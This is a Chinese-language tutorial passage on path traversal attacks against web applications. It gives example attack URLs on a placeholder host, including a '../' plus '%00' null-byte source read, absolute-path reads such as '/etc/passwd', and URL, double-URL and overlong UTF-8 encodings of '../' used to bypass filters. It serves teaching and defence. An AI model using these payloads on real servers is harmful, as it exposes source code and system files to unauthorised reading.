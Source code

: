 针对一个 **web 应用**
的路径遍历攻击原文:`https://testsite/foo.cgi?home=index.htm`
攻击:`https://testsite/foo.cgi?home=foo.cgi`

在上面的例子中，web 应用程序揭示了`foo.cgi` 文件的源代码。

针对使用特殊字符序列的 **web 应用的路径遍历攻击:**
原始:`https://testsite/scripts/foo.cgi?page=menu.txt`
攻击:`http://testsite/scripts/foo.cgi?page=../scripts/foo.cgi%00txt`

在上面的例子中，web 应用程序通过使用特殊字符序列揭示了`foo.cgi`文件的源代码。“`../`”序列用于遍历当前目录之上的一个目录，并进入`/`脚本目录。“`%00`”序列用于绕过文件扩展名检查，并在读入文件时剪掉扩展名。

# 绝对路径遍历

以下 URL 可能容易受到此攻击:

```
https://testsite/get.php?f=list
https://testsite/get.cgi?f=5
https://testsite/get.asp?f=test
```

攻击者可以像这样执行攻击:

```
https://testsite/get.php?f=/var/www/html/get.php
https://testsite/get.cgi?f=/var/www/html/admin/get.inc
https://testsite/get.asp?f=/etc/passwd
```

当 web 服务器返回关于 web 应用程序中的错误的信息时，攻击者更容易猜出正确的位置(例如，带有源代码的文件的路径，然后可能会显示出来)。

# 考虑以下字符编码机制:

**URL 编码和双重 URL 编码**

```
%2e%2e%2f represents ../
%2e%2e/ represents ../
..%2f represents ../
%2e%2e%5c represents ..\
%2e%2e\ represents ..\
..%5c represents ..\
%252e%252e%255c represents ..\
..%255c represents ..\ and so on.
```

**Unicode/UTF-8 编码**(仅适用于能够接受超长 UTF-8 序列的系统)

```
.%c0%af represents ../
..%c1%9c represents ..\
```

![](img/5ff757cbb0188447543554c58269012a.png)
